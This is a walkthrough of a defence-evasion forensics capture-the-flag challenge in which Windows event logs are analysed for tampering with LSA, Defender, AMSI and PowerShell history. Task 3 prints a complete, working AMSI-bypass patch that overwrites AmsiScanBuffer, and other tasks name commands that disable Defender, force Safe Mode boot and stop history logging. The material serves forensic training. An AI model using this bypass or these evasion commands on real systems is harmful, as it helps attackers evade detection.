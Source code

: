 
![Gu1lf51dUs](https://github.com/user-attachments/assets/97e78c87-7a08-445e-b837-7e8a11becf59)

# Operation Blackout 2025: Smoke & Mirrors 


## Description
In Smoke & Mirrors, players analyze the provided event logs and forensic artifacts to uncover how the attacker disabled or altered security features. They must identify the tools, commands, or scripts used to reduce visibility and reconstruct the methods the attacker used to operate undetected. 


## Scenario
Byte Doctor Reyes is investigating a stealthy post-breach attack where several expected security logs and Windows Defender alerts appear to be missing. He suspects the attacker employed defense evasion techniques to disable or manipulate security controls, significantly complicating detection efforts. Using the exported event logs, your objective is to uncover how the attacker compromised the system's defenses to remain undetected.


## Artifacts
- Microsoft-Windows-Powershell.evtx - FD0391939810806A2518008B77EDF719B17F55D9AF826329FA1A6310AB00FF41
- Microsoft-Windows-Powershell-Operational.evtx - AFF7286F5ADD8D63F306F927D32F857A3CA8DD5AD4147C3BE4273E7A7017A348
- Microsoft-Windows-Sysmon-Operational.evtx - C1BD14FDF13FB4D64A85FEAD50FB200CCC6F369389DB08DB51477185DEEDBECF


## Skills
- Malicious use of PowerShell cmdlets
- Log Analysis
- Analyze and interpret Windows Registry modifications
- Identify how attackers disable or tamper with Windows security features


## Walkthrough
### Task 1: The attacker disabled LSA protection on the compromised host by modifying a registry key. What is the full path of that registry key?
Filter by "HKLM\SYSTEM" in the Windows PowerShell Operational logs to find were the attacker modified the LSA registry key.


### Task 2: Which PowerShell command did the attacker first execute to disable Windows Defender?
Look in the Windows PowerShell logs for the PowerShell cmdlet of "[Set-MpPreference](https://learn.microsoft.com/en-us/powershell/module/defender/set-mppreference?view=windowsserver2025-ps)"; could also search for conditionals with Set-MpPreference such as $true or $false. The first log was executed at '10-04-2025 12:01:35' 


### Task 3: The attacker loaded an AMSI patch written in PowerShell. Which function in the DLL is being patched by the script to effectively disable AMSI?
Search within the Windows-PowerShell-Operational logs for strings relating to '.dll', find that the attacker imported a function named 'Disable-Protection' which modifies 'amsi.dll'. Viewing the full script reveals that it attempts to patch the 'AmsiScanBuffer' function within the DLL.
```PowerShell
CommandInvocation(Add-Type): "Add-Type"
ParameterBinding(Add-Type): name="TypeDefinition"; value="using System;
using System.Runtime.InteropServices;
public class P {
    [DllImport("kernel32.dll")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32.dll")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);
    [DllImport("kernel32.dll")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    public static bool Patch() {
        IntPtr h = GetModuleHandle("a" + "m" + "s" + "i" + ".dll");
        if (h == IntPtr.Zero) return false;
        IntPtr a = GetProcAddress(h, "A" + "m" + "s" + "i" + "S" + "c" + "a" + "n" + "B" + "u" + "f" + "f" + "e" + "r");
        if (a == IntPtr.Zero) return false;
        UInt32 oldProtect;
        if (!VirtualProtect(a, (UIntPtr)5, 0x40, out oldProtect)) return false;
        byte[] patch = { 0x31, 0xC0, 0xC3 };
        Marshal.Copy(patch, 0, a, patch.Length);
        return VirtualProtect(a, (UIntPtr)5, oldProtect, out oldProtect);
    }
}"
```


### Task 4: Which command did the attacker use to restart the machine in Safe Mode?
To restart a windows machine in Safe Mode, the command must include the string 'safeboot', searching the Microsoft-Windows-Sysmon-Operational confirms that the attacker executed "bcdedit.exe /set safeboot network".


### Task 5: Which PowerShell command did the attacker use to disable PowerShell command history logging?
Searching for 'Set-PSReadlineOption' in the Windows PowerShell logs reveals that the attacker set the History to SaveNothing.
